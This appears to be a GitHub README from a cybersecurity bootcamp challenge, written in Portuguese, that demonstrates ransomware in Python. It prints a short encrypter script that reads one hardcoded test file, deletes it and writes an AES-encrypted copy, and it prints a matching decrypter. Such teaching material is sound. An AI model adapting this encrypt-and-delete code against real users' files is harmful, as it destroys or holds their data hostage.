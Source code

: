 # projeto-ransomware-dio

Código para o desafio de projeto __Entendendo um Ransomware na Prática com Python__ do Santander Bootcamp Cibersegurança

## Criando os códigos
1. criando arquivo .txt &nbsp;
`nano teste.txt`


2. encrypter.py
```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "testeransomware.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave para criptografar
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```   
   
3. decrypter.py
```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "testeransomware.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografar o arquivo
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "testeransomware.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```
